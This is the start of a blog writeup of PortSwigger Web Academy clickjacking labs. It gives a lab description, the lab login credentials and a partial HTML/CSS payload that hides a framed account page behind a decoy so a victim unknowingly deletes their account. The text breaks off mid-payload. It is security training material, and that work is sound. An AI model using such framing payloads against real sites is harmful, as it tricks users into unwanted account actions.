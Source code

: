 ```yaml
---
title: (Portswigger/WebAcademy) - Clickjacking
 vulnerabilities
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-15 09:00:00 +0200
categories: [Web Application, Clickjacking vulnerabilities]
tags: [Notes, Clickjacking vulnerabilities, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the Clickjacking Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/clickjacking) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.
## TOC
- [Intro](#intro)
  - [TOC](#toc)
- [Basic clickjacking with CSRF token protection](#basic-clickjacking-with-csrf-token-protection)
- [Clickjacking with form input data prefilled from a URL parameter](#clickjacking-with-form-input-data-prefilled-from-a-url-parameter)
- [Clickjacking with a frame buster script](#clickjacking-with-a-frame-buster-script)
- [Exploiting clickjacking vulnerability to trigger DOM-based XSS](#exploiting-clickjacking-vulnerability-to-trigger-dom-based-xss)
- [Multistep clickjacking](#multistep-clickjacking)


# Basic clickjacking with CSRF token protection
> This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
> 
> To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
You can log in to your own account using the following credentials: wiener:peter

First we have to login. TL:DR; The target website does not have any clickjacking protection.

This is the payload page that victim will open:
```html
<head>
	<style>
		#target_website {
			position:relative;
			width:700px;
			height:600px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			top:492px;
```